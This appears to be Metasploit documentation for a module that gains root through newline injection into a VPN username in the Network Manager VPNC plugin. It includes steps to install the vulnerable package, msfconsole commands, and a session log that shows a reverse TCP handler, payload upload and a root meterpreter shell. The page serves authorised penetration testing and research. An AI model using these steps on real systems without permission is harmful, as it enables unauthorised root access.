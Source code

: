 ## Vulnerable Application

### Description

  This module exploits an injection vulnerability in the Network Manager
  VPNC plugin to gain *root* privileges.

  This module uses a new line injection vulnerability in the configured
  username for a VPN network connection to inject a `Password helper`
  configuration directive into the connection configuration.

  The specified helper is executed by Network Manager as root when the
  connection is started.

  Network Manager VPNC versions prior to 1.2.6 are vulnerable.

  This module has been tested successfully with VPNC versions:

  * 1.2.4-4 on Debian 9.0.0 (x64); and
  * 1.1.93-1 on Ubuntu Linux 16.04.4 (x64).

### Installation

  The following installation instructions are for Ubuntu 16.04.04.

  ```sh
  # List available network-manager-vpnc packages
  apt-cache showpkg network-manager-vpnc

  # Install a vulnerable package
  apt-get install network-manager-vpnc=1.1.93-1
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/network_manager_vpnc_username_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/network_manager_vpnc_username_priv_esc 
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > set lhost 172.16.191.188 
  lhost => 172.16.191.188
  msf5 exploit(linux/local/network_manager_vpnc_username_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] nmcli utility is installed
  [*] Adding VPN connection...
  [*] Uploading payload...
  [*] Writing '/tmp/.4FCA0Pp4tw' (237 bytes) ...
  [*] Starting VPN connection...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 172.16.191.201
  [+] Deleted /tmp/.4FCA0Pp4tw
  [*] Removing VPN connection...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.201
  OS           : Ubuntu 16.04 (Linux 4.13.0-41-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

